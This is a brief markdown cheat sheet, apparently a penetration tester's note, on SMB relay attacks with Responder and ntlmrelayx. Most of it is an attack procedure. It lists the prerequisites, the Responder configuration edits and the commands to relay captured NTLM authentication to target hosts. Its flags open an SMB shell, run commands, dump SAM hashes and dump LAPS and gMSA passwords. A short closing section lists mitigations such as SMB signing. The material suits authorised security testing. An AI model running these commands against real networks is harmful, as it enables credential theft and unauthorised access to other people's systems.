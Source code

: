 # smb relay ntlmrelayx

**REQUIREMENTS:**

* SMB signing must be disabled.
* Relayed user creds must be admin on machine

## Information

Invoke this attack: request callback to SMB on kali using `\\IP`

1. `responder` will capture the request, pass it to `ntlmrelayx`
2. ntlmrelayx will relay the request to TARGET.txt
    1. Enables RemoteRegistry
        1. Captures system bootkey
        2. Performs intended action; Default action: SAM dump using `secretsdump.py`
        3. Retores RemoteRegistry back to disabled state.

```bash
ntlmrelayx.py [-6] [-t TARGET | -tf TARGET_FILE] -smb2support [-l LOOT_DIR] [-i] [-e "SHELL.exe"] [-c "COMMANDS"]
# -6: IPv6
# -i: will open a smb shell, can connect using nc IP PORT
# --dump-laps: dump LAPS passwords
# --dump-gmsa: dump gMSA passwords
```

## SMB-check

```bash
nmap --script=smb2-security-mode.nse -p 445 IP/CIDR
```

## Method:

1. set `SMB=Off` and `HTTP=Off` in `/etc/responder/Responder.conf`
2. Run `sudo responder -I INTF -rdwv`
3. Run `ntlmrelayx.py -tf TARGET.txt -smb2support [FLAGS]`

## Fix

* Enable SMB signing on all devices (can cause performance issues).
* Disable NTLM Auth on network
* Account tiering (restricting domain admins to specific tasks)